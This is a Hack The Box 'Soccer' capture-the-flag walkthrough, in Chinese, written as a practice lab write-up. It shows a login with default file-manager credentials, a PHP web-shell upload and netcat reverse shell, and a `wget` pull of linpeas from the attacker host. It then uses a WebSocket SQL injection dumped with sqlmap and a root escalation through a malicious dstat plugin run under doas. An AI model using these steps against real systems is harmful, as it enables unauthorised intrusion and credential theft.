###### tags: `Hack the box` `HTB` `Easy` `Linux`

# Soccer
```
┌──(kali㉿kali)-[~/htb]
└─$ rustscan -a 10.129.10.140 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 10.129.10.140:22
Open 10.129.10.140:80
Open 10.129.10.140:9091

PORT     STATE SERVICE         REASON         VERSION
22/tcp   open  ssh             syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ad:0d:84:a3:fd:cc:98:a4:78:fe:f9:49:15:da:e1:6d (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQChXu/2AxokRA9pcTIQx6HKyiO0odku5KmUpklDRNG+9sa6olMd4dSBq1d0rGtsO2rNJRLQUczml6+N5DcCasAZUShDrMnitsRvG54x8GrJyW4nIx4HOfXRTsNqImBadIJtvIww1L7H1DPzMZYJZj/oOwQHXvp85a2hMqMmoqsljtS/jO3tk7NUKA/8D5KuekSmw8m1pPEGybAZxlAYGu3KbasN66jmhf0ReHg3Vjx9e8FbHr3ksc/MimSMfRq0lIo5fJ7QAnbttM5ktuQqzvVjJmZ0+aL7ZeVewTXLmtkOxX9E5ldihtUFj8C6cQroX69LaaN/AXoEZWl/v1LWE5Qo1DEPrv7A6mIVZvWIM8/AqLpP8JWgAQevOtby5mpmhSxYXUgyii5xRAnvDWwkbwxhKcBIzVy4x5TXinVR7FrrwvKmNAG2t4lpDgmryBZ0YSgxgSAcHIBOglugehGZRHJC9C273hs44EToGCrHBY8n2flJe7OgbjEL8Il3SpfUEF0=
|   256 df:d6:a3:9f:68:26:9d:fc:7c:6a:0c:29:e9:61:f0:0c (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIy3gWUPD+EqFcmc0ngWeRLfCr68+uiuM59j9zrtLNRcLJSTJmlHUdcq25/esgeZkyQ0mr2RZ5gozpBd5yzpdzk=
|   256 57:97:56:5d:ef:79:3c:2f:cb:db:35:ff:f1:7c:61:5c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJ2Pj1mZ0q8u/E8K49Gezm3jguM3d8VyAYsX0QyaN6H/
80/tcp   open  http            syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://soccer.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
9091/tcp open  xmltec-xmlmail? syn-ack ttl 63
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, RPCCheck, SSLSessionReq, drda, informix: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|   GetRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 139
|     Date: Wed, 09 Oct 2024 10:14:03 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot GET /</pre>
|     </body>
|     </html>
|   HTTPOptions: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 143
|     Date: Wed, 09 Oct 2024 10:14:04 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot OPTIONS /</pre>
|     </body>
|     </html>
|   RTSPRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 143
|     Date: Wed, 09 Oct 2024 10:14:05 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot OPTIONS /</pre>
|     </body>
|_    </html>
```

先`soccer.htb`加入`/etc/hosts`
```
┌──(kali㉿kali)-[~/htb]
└─$ sudo nano /etc/hosts

10.129.10.140   soccer.htb
```

`ffuf`掃，有一個`/tiny`
```
┌──(kali㉿kali)-[~/htb]
└─$ ffuf -u http://soccer.htb/FUZZ -w /home/kali/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt

tiny                    [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 202ms]
                        [Status: 200, Size: 6917, Words: 2196, Lines: 148, Duration: 213ms]
```

前往`http://soccer.htb/tiny/`可以看到登入畫面




搜尋`tinyfilemanager default credentials`




發現兩個都能用
```
admin/admin@123
user/12345
```

再google查到[tinyfilemanager-2.4.3-exploit](https://github.com/febinrev/tinyfilemanager-2.4.3-exploit)但用了好像都沒辦法，感覺好像是要上傳shell

點`tiny`




點`uploads`




點右上角`upload`




上傳shell




點`shell.php`




點`open`




開nc

```
┌──(kali㉿kali)-[~/htb]
└─$ rlwrap -cAr nc -nvlp4444

$ python3 -c 'import pty; pty.spawn("/bin/bash")'
```

`linpeas.sh`
```
www-data@soccer:/tmp$ wget 10.10.14.55/linpeas.sh
www-data@soccer:/tmp$ chmod +x linpeas.sh
www-data@soccer:/tmp$ ./linpeas.sh

lrwxrwxrwx 1 root root 41 Nov 17  2022 /etc/nginx/sites-enabled/soc-player.htb -> /etc/nginx/sites-available/soc-player.htb
server {
        listen 80;
        listen [::]:80;
        server_name soc-player.soccer.htb;
        root /root/app/views;
        location / {
                proxy_pass http://localhost:3000;
                proxy_http_version 1.1;
                proxy_set_header Upgrade $http_upgrade;
                proxy_set_header Connection 'upgrade';
                proxy_set_header Host $host;
                proxy_cache_bypass $http_upgrade;
        }
}
```

找不到可以`PE`的點，`find binaries`看看
```
www-data@soccer:~/html$ find / -perm -u=s -type f 2>/dev/null
/usr/local/bin/doas
...
```

搜尋`/usr/local/bin/doas privildge escalation`可以找到[Doas Privilege Escalation](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/doas/)

裡面有說明，類似`sudo`的指令
```
doas executes arbitrary commands as another user. It's similar to sudo command. doas.conf is interesting to privilege escalation.
```

按照上面看看，他說`player`的權限才能使用，繼續尋找`player`的權限..
```
www-data@soccer:/usr/local/bin$ find / -type f -name "doas.conf" 2>/dev/null
/usr/local/etc/doas.conf

www-data@soccer:/usr/local/bin$ cat /usr/local/etc/doas.conf
permit nopass player as root cmd /usr/bin/dstat
```


按照剛剛`linpeas`所列出的先把`soc-player.htb`加入`/etc/hosts`
```
┌──(kali㉿kali)-[~/htb]
└─$ sudo nano /etc/hosts

10.129.210.3    soc-player.soccer.htb
```

進到`http://soc-player.htb/`可以看到左上角有`signup`點進去註冊一個帳號




利用`burpsuite`看發現他在`/login`登入後進到`/check`會發送`request`到`9091port`




`9091port`是`websocket server`

在`/check`頁面可以看到輸入`id`會顯示`Ticket exists`




利用輸入`86186 or 1=1--`可以發現他可以繞過


在`burpsuite`選到`WebSockets History`可以看到送的記錄




使用`UNION`可以看到有3個欄位




確認可以執行`sql injection`，我搜尋了`websocket sqlinjection`找到了[sqlmap Websocket Proxy](https://github.com/BKreisel/sqlmap-websocket-proxy)，裡面還有一篇文章[Automating Blind SQL injection over WebSocket](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html)

先把`proxy`打開
```
┌──(kali㉿kali)-[~/htb]
└─$ sqlmap-websocket-proxy -u ws://soc-player.soccer.htb:9091 -d '{"id": "%param%"}' -p 8083
💉 Sqlmap Websocket Proxy
   - Proxy Port : 8083
   - URL        : ws://soc-player.soccer.htb:9091
   - Payload    : {"id": "%param%"}
[*] Targeting 1 injectable parameter(s)
[+] sqlmap url flag: -u http://localhost:8083/?param1=1
[*] Server Started (Ctrl+c to stop)

┌──(kali㉿kali)-[~/htb]
└─$ sqlmap -u  http://localhost:8083/?id=1 --batch --dbs

...
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 85 HTTP(s) requests:
---
Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 8032 FROM (SELECT(SLEEP(5)))sNZK)
---
[01:51:14] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[01:51:14] [INFO] fetching database names
[01:51:14] [INFO] fetching number of databases
[01:51:14] [INFO] resumed: 5
[01:51:14] [INFO] retrieved: 
[01:51:14] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
[01:51:33] [INFO] adjusting time delay to 4 seconds due to good response times
mysql
[01:53:01] [INFO] retrieved: information_schema
[01:58:52] [INFO] retrieved: performance_schema
[02:04:38] [INFO] retrieved: sys
[02:05:42] [INFO] retrieved: soccer_db
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] soccer_db
[*] sys

...
```

想要列出`soccer_db`的`tables`，只有一個`accounts`
```
┌──(kali㉿kali)-[~/htb]
└─$ sqlmap -u  http://localhost:8083/?id=1 -D soccer_db --tables --dbms mysql

Database: soccer_db
[1 table]
+----------+
| accounts |
+----------+
```

再來換成`dump`資料，真的跑好久嗚嗚
```
┌──(kali㉿kali)-[~/htb]
└─$ sqlmap -u  http://localhost:8083/?id=1 -D soccer_db -T accounts --dump 

...
Database: soccer_db
Table: accounts
[1 entry]
+------+-------------------+---------------+----------+
| id   | email             | password      | username |
+------+-------------------+---------------+----------+
| 1324 | player@player.htb | PlayerOftheMa | <blank>  |
+------+-------------------+---------------+----------+
```

切成`player`後可以用剛剛的指令了，找到[GTFOBins](https://gtfobins.github.io/gtfobins/dstat/)
```
www-data@soccer:/usr/local/bin$ su player
su player
Password: PlayerOftheMatch2022
```

先找哪個路徑可以寫檔案，確認`/usr/local/share/dstat/`可以寫入
```
1. ~/.dstat/
2. (path of binary)/plugins/
3. /usr/share/dstat/
4. /usr/local/share/dstat/
Pick the one that you can write in
```

確認`doas`的使用方法，按照上面先把`.py`檔寫進來，之後執行就可以得root了，得root後可在/root得proof.txt
```
player@soccer:/usr/local/share/dstat$ /usr/local/bin/doas
usage: doas [-nSs] [-a style] [-C config] [-u user] command [args]

player@soccer:/usr/local/share/dstat$ echo 'import os; os.execv("/bin/sh", ["sh"])' > dstat_xxx.py

player@soccer:/usr/local/share/dstat$ /usr/local/bin/doas /usr/bin/dstat --xxx

# python3 -c 'import pty; pty.spawn("/bin/bash")'
root@soccer:~# cat root.txt
6747d01270f17e9f4dd4e8ca9e16b2c0
```